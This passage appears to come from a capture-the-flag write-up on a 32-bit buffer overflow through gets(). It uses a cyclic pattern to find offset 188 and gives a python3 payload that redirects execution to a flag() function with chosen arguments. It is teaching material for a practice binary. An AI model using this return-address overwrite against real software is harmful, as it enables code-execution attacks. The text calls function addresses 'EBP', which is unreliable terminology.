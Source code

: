 ```
cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

Cool, we now have a cyclic pattern that changes every 4-bytes.

Let's send it to our program so we store it in our 188-byte buffer. This will obviously overflow due to the usage of `gets()`, but this is what we want. <mark style="color:yellow;">So we can see the first 4-bytes that overwrite the EIP</mark>.

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

We can see that the first 4-bytes that overflow the EIP is 'waab'.

We can then do a `cyclic -l` to see the offset:

```
cyclic -l waab
Finding cyclic pattern of 4 bytes: b'waab' (hex: 0x77616162)
Found at offset 188
```

Boom! Same thing that we gathered from `ghidra`.

Viewing the disassembly of `vuln()`:

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

Let's grab the EBP of `vuln()`: <mark style="color:red;">`0x08049272`</mark>

## Exploitation

### Manual Exploitation

We can use `python3` to overflow the buffer. It's about time I start using `python3` for manual exploitation XD.

Exploit Structure: <mark style="color:yellow;">188 junk A's (padding) + flag() EBP address + "junk return address" & param\_1 & param\_2</mark>

{% code overflow="wrap" %}
```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*188+b'\xe2\x91\x04\x08'+b'1337\xef\xbe\xad\xde\x0d\xd0\xde\xc0')"  > payload
```
{% endcode %}

We want to divert execution to `flag()`, so we need to grab the EBP address of that function via disassembly:

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>
